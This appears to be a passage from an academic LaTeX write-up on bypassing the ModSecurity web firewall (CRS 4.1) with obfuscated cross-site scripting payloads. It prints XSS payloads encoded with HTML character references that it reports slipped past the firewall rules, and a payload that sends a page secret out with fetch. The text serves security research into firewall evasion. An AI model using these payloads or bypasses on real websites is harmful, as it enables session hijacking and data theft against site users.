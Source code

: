 \subsubsection{Double HTML Character Reference}
\label{sec:doublehtmlcharref}
As stated under Section~\ref{sec:htmlcharrefsingleeva}, three blacklisting rules caused the ModSecurity firewall using \acrshort{crs} 4.1 to block the payload:

\begin{lstlisting}[style=basicStyle, language=Python]
<a href=javascript:alert('a')>ClickMeFor$</a>
\end{lstlisting}

After obscuring the payload with a single iteration of \acrshort{html} character reference substitution, the modified payload:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=jav^\&\#x61^;script:alert('a')>ClickMeFor$</a>
\end{lstlisting}

successfully bypassed two of the three rules that caused the firewall to block the request.

On escaping the left parenthesis: \verb|(| in the javascript function \verb|alert()|, which was part of the matched data that caused rule with id \verb|941390| to match (see Listing~\ref{lst:storedxssinjblocked}), the payload:

\begin{lstlisting}[style=basicStyle, language=Python, caption=HTML character reference bypass, label={lst:htmlcharacterreferencebypass}, escapeinside=\^\^]
<a href=jav^\&\#x61;script:alert\&\#x28;^'a')>ClickMeFor$</a>
\end{lstlisting}

successfully bypassed the ModSecurity firewall using \acrshort{crs} 4.1.


\subsubsection{HTML Character References + JavaScript normal character escape}

\label{sec:htmlencjsesc}
The following payload could be used by an attacker intending to exploit a XSS vulnerability to exfiltrate secrets:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=javascript:var secret = document.getElementsByName('name')[0].innerHTML;var data = {body:secret,method:'POST'};fetch('http://localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a>
\end{lstlisting}

